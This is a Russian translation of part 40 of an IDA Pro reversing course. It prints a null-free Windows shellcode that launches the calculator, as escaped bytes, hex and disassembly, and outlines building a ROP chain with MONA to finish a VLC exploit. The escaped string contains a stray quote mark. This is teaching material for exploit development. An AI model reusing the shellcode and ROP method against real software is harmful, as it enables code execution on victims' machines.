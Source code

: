 # Часть 40

**УНИВЕРСАЛЬНЫЙ ШЕЛЛКОД**

Существует тысячи типов шеллкодов. Каждый из них разработан в соответствии с целью, которую мы должны эксплуатировать.

Существую шеллкоды, которые используются для доказательства того, что вы можете запустить код после эксплуатации. Обычно они запускают калькулятор и ничего больше.

Очевидно, что существуют более сложные шеллкоды, которые открывают удаленные консоли, стараются остаться в системе не смотря на то, что эксплуатируемая программа перестает работать или закрывается, инжектируют себя в некоторый другой процесс системы, сохраняет себя как файл и т.д.

Существует библиотека шеллкодов, которую мы можем найти в **GOOGLE** или запрограммировать, если нам нужно что-то особенное.

С этого момента мы будем использовать **УНИВЕРСАЛЬНЫЙ ШЕЛЛКОД**, который работает для всех версией **WINDOWS** и запускает калькулятор. При этом мы продемонстрируем выполнение кода.

Я нашел его здесь:

[https://packetstormsecurity.com/fil...-Null-Free-CreateProcessA-Calc-Shellcode.html](https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html)

>shellcode=**"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b"\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"**

Я могу использовать его в скрипте **PYTHON** точно так же, если у меня есть место для его добавления.

Сами байты эксплоита такие:

`31 db 64 8b 7b 30 8b 7f 0c 8b 7f 1c 8b 47 08 8b 77 20 8b 3f 80 7e 0c 33 75 f2 89 c7 03 78 3c 8b" 57 78 01 c2 8b 7a 20 01 c7 89 dd 8b 34 af 01 c6 45 81 3e 43 72 65 61 75 f2 81 7e 08 6f 63 65 73 75 e9 8b 7a 24 01 c7 66 8b 2c 6f 8b 7a 1c 01 c7 8b 7c af fc 01 c7 89 d9 b1 ff 53 e2 fd 68 63 61 6c 63 89 e2 52 52 53 53 53 53 53 53 52 53 ff d7`

```assembly
MOV EDI,DWORD PTR FS:[EBX+30]
XOR EBX,EBX
MOV EDI,DWORD PTR DS:[EDI+C]
MOV EDI,DWORD PTR DS:[EDI+1C]
MOV EAX,DWORD PTR DS:[EDI+8]
MOV ESI,DWORD PTR DS:[EDI+20]
MOV EDI,DWORD PTR DS:[EDI]
CMP BYTE PTR DS:[ESI+C],33
JNZ SHORT CANARY_c.00A7138A
MOV EDI,EAX
ADD EDI,DWORD PTR DS:[EAX+3C]
MOV EDX,DWORD PTR DS:[EDI+78]
ADD EDX,EAX
MOV EDI,DWORD PTR DS:[EDX+20]
ADD EDI,EAX
MOV EBP,EBX
MOV ESI,DWORD PTR DS:[EDI+EBP*4]
ADD ESI,EAX
INC EBP
CMP DWORD PTR DS:[ESI],61657243
JNZ SHORT CANARY_c.00A713A9
CMP DWORD PTR DS:[ESI+8],7365636F
JNZ SHORT CANARY_c.00A713A9
MOV EDI,DWORD PTR DS:[EDX+24]
ADD EDI,EAX
MOV BP,WORD PTR DS:[EDI+EBP*2]
MOV EDI,DWORD PTR DS:[EDX+1C]
ADD EDI,EAX
MOV EDI,DWORD PTR DS:[EDI+EBP*4-4]
ADD EDI,EAX
MOV ECX,EBX
MOV CL,0FF
PUSH EBX
LOOPD SHORT CANARY_c.00A713D8
PUSH 636C6163
MOV EDX,ESP
PUSH EDX
PUSH EDX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EDX
PUSH EBX
CALL EDI
```

Эти байты запускают калькулятор везде где мы их вставляем. Хорошо, что у этих байтов нет нулей. Хотя могут быть программы, который отвергают какой-то конкретный символ отличный от нуля. Это будет зависеть от случая.

Мы уже знаем, как сделать **ROP** и у нас уже есть универсальный шеллкод. Основной смысл состоит в том, чтобы практиковаться с программой **VLC**, для которой мы уже сделали **POC**. Я был бы очень рад, если бы кто-то отправил мне полный файл и туториал, объясняющий то, что Вы сделали. Я бы добавил бы первого человека, который отправил бы мне хорошо объясняющий туториал в качестве приложения в одной из глав.

**ROP** может быть сделан вручную или с помощью **MONA**. Для нас нет никаких проблем. Вы должны найти модуль **DLL** без защиты **ASLR** и если таких больше чем один, **MONA** может использовать больше одной **DLL** в качестве аргумента, для объединения **ROP** объединяющей обе **DLL**.

Что касается же скрипта **PYTHON**, то я дам вам его схему. Как только вы создадите **ROP**, откройте файл **POC.TY+**

![](.gitbook/assets/40/01.png)

И ищите числа **41424344**, которые перезаписывают **АДРЕС ВОЗВРАТА**.

![](.gitbook/assets/40/02.png)

И здесь, в зависимости от размера **ROP** + **ШЕЛЛКОДА**,  скажем, что в качестве примера, **ROP** и **ШЕЛЛКОД** имеет длину **150** байтов. Я заменяю область по чуть-чуть начиная со значения **41424344**включительно. Предположим что это **160** байтов.

Я помечаю вниз, пока не получу отмеченную область требуемой длины.

![](.gitbook/assets/40/03.png)

Я заполняю выбранную область с помощью байта **90**.

![](.gitbook/assets/40/04.png)

Хорошо, проверьте размер области, где находятся байты **90**, которая больше чем размер **ROP** + **ШЕЛЛКОД**. Я записываю полученный размер. В моём случае он равен **160** байт.

![](.gitbook/assets/40/05.png)

Теперь у нас есть схема работы скрипта. Скрипт ещё не протестирован. Скрипт не работает. Мы не определили **ROP** или **ШЕЛЛКОД**. Вы можете использовать **УНИВЕРСАЛЬНЫЙ ШЕЛЛКОД**, который мы только что видели, если у вас нет проблем с каким-либо символом. Если это не так, вы должны найти другой шеллкод.

Основная идея состоит в том, что скрипт открывает файл заполненный байтами **90**, заменяет их полезной нагрузкой того же размера, которая содержит начало **ROP**,  **ШЕЛЛКОД** и дополнительные данные или заполнение. Затем скрипт сохраняет файл, чтобы проверить его работоспособность. Если файл заработает, то это будет считаться эксплоитом. А если нет заработает, нам нужно трассировать, чтобы увидеть почему так получилось.

Я был бы очень рад, если бы кто-то написал туториал и отправил мне рабочий эксплоит.Я бы увидел, что я зря не тратил время на написание туториалов.

Первый человек, который отправит мне туториал, будет добавлен в наш курс как победитель. Если людей будет больше одного, я загружу решению их в папку **SOLUCIONES** нашего курса, которую я создам для этого на своев Веб-Сервере, если это потребуется.

До следующей части **41**. Практикуйте и находите решение.

* * *

Автор оригинального текста — Рикардо Нарваха.

Перевод и адаптация на английский  язык — IvinsonCLS.

Перевод и адаптация на русский язык — Яша Яшечкин.

Перевод специально для форума системного и низкоуровневого программирования - WASM.IN

11.04.2018

Источник:

[**http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/40-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2040.7z**](http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/40-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2040.7z)
